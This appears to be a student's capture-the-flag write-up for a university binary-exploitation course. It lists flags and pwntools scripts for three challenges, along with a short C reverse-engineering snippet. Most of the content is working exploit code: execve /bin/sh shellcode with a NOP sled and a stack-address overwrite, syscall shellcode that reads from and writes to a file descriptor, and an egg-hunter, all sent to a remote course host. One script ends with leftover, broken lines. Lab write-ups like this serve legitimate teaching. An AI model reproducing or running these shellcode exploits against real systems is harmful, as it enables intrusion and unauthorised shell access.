 shellz
===========================

Flag: COMP6447{P0P_D3M_SH3LLZ}

General overview of problems faced
-------------------------------------

overwrite return address to pop da shell

Script/Command used
------------------
```
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']

execve = """
    a:
    mov eax, 0x0b;
    pop ebx;
    mov ecx, 0;
    mov edx, 0;
    int 0x80;
"""
nope = 'nop;'*(8169)

payload = asm(execve + nope + 'call a;')

p = remote("plzpwn.me","3000")
p.recvuntil('address: ')

hexA = p.recv(10)
stack_address = int(hexA,16)

p.sendline(payload + "/bin/sh\0" + p32(stack_address))
p.interactive()
```

simple
=============

Flag: COMP6447{trivial}

General overview of problems faced
-------------------------------------
look at some syscalls


Script/Command used
------------------
```
from pwn import *

context.terminal = ["tmux", "splitw", "-h"]
p = remote("plzpwn.me","3001")

shellcode = """
    call a
    a:
    mov eax, 0x3;
    mov ebx, 1000;
    mov ecx, esp;
    add ecx, 0x44;
    mov edx, 0x20;
    int 0x80;
    mov eax, 0x4;
    mov ebx, 0x1;
    mov ecx, esp;
    add ecx, 0x44;
    mov edx, 0x20;
    int 0x80;
    pop esp;
    ret
"""

ass = asm(shellcode) + "\0"*20
p.sendline(ass)
p.interactive()
```

find-me
=============

Flag: COMP6447{H4NT_D3M_3GGZ}

General overview of problems faced
-------------------------------------
had to learn the hard way why you can't do arithmetic after cmp


Script/Command used
------------------
```
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']

big_code = """
    call a
    a:
    mov eax, 0x3;
    mov ebx, 1000;
    mov ecx, esp;
    add ecx, 0x44;
    mov edx, 0x20;
    int 0x80;
    mov eax, 0x4;
    mov ebx, 0x1;
    mov ecx, esp;
    add ecx, 0x44;
    mov edx, 0x20;
    int 0x80;
"""
small_code = """
    b:
    add eax, 0x4;
    cmp dword ptr [eax], 0x90909090
    jne b;
    jmp eax;
"""

p = remote("plzpwn.me", "3002")
p.recvuntil("new stack ")
address = p.recv(10)
p.recv()
p.sendline(asm(small_code))
p.recv()
p.sendline(p32(0x90909090)*4 + asm(big_code)+"flag")
p.recv()
p.interactive()

ass = asm(shellcode) + "\0"*20
p.sendline(ass)
p.interactive()
```

re challenge
=============

General overview of problems faced
-------------------------------------
what problems?

```
#include <stdio.h>
int main() {
	int i = 0;
	while (i <= 9) {
		if (i&1) {
			printf("%d ", i);
        }
		i++;
	}
	return 1;
}

